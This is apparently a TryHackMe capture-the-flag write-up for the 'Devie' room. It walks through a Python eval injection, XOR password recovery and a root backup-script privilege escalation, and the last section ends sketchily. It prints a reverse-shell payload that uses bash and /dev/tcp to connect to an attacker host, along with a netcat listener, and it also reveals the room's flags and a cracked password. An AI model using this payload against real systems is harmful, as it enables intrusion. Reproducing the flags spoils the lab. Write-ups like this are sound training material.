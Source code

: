 # Devie

A writeup for the room [Devie](https://tryhackme.com/room/devie) on TryHackMe.

> A developer has asked you to do a vulnerability check on their system.

<Image src={require("./logo.webp").default} height="256" />

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<Image src={require("./nmap.webp").default} />

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<Image src={require("./website.webp").default} />

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<Image src={require("./vuln.webp").default} />

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`.

<Image src={require("./flag1.webp").default} />

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<Image src={require("./key.webp").default} />

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`.

<Image src={require("./flag2.webp").default} />

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```sh
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```
